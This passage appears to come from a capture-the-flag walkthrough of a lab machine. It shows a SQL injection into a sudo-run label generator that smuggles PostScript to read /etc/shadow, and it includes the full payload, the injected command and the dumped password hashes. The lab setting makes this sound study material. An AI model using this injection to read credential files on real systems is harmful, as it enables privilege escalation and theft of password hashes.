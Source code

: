 I don’t care about the PDF output, but rather, that there’s an `output.txt` in the current directory:

```

neil@bookworm:~$ ls -l output.txt 
-rw-r--r-- 1 root root 14 Jan 17 18:41 output.txt
neil@bookworm:~$ cat output.txt 
this is a test

```

#### Read POC

I spent a long time with ChatGPT trying to get a POC that would read a file into the PDF without success. I’ll end up back with the POC from above, this time grabbing the second and third blocks:

```

/inputfile (/etc/shadow) (r) file def
inputfile 10000 string readstring
pop
inputfile closefile

/outfile (output.txt) (w) file def
outfile exch  writestring
outfile closefile 

```

I’ll need to increase the number on the second line, as that’s the number of bytes to be read, and I want more than 100. I’ll run this via the SQL injection:

```

neil@bookworm:~$ sudo genlabel '99999 UNION SELECT "0xdf)
> 
> /inputfile (/etc/shadow) (r) file def
> inputfile 10000 string readstring
> pop
> inputfile closefile
> 
> /outfile (output.txt) (w) file def
> outfile exch  writestring
> outfile closefile 
> 
> (test", 2,3,4,5,6,7'
Fetching order...
Generating PostScript file...
Generating PDF (until the printer gets fixed...)
Documents available in /tmp/tmpqsikna5vprintgen
neil@bookworm:~$ cat output.txt 
root:$6$X.PJezLobVQOLuGu$nDnaPx.G5/nXr9I7WI0h8Sw0vjeFcOChirHr1s0zNyaid7X5U26fB5MXOIQB/oR4fb7xiaN/.bXdfAkGwtXL6.:19387:0:99999:7:::
daemon:*:18375:0:99999:7:::
bin:*:18375:0:99999:7:::
sys:*:18375:0:99999:7:::
sync:*:18375:0:99999:7:::
games:*:18375:0:99999:7:::
man:*:18375:0:99999:7:::
lp:*:18375:0:99999:7:::
mail:*:18375:0:99999:7:::
news:*:18375:0:99999:7:::
uucp:*:18375:0:99999:7:::
proxy:*:18375:0:99999:7:::
www-data:*:18375:0:99999:7:::
backup:*:18375:0:99999:7:::
```